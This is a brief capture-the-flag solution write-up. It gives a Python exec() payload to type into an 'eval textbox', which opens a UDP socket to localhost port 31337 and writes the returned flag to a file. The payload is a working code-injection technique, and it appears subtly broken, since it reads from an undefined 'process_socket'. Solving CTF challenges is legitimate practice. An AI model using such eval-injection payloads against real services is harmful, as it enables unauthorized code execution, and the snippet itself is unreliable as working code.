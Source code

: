# Solution

Type this in eval textbox:

exec("""import socket as s;p=s.socket(s.AF_INET, s.SOCK_DGRAM);p.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);p.bind(("localhost", 0));p.sendto(b"", ("localhost", 31337));f=open("file_name", "wb");f.write((process_socket.recvfrom(1024))[0]);f.close()""")  # write flag to "file_name"

open("file_name").read()  # read flag from "file_name"
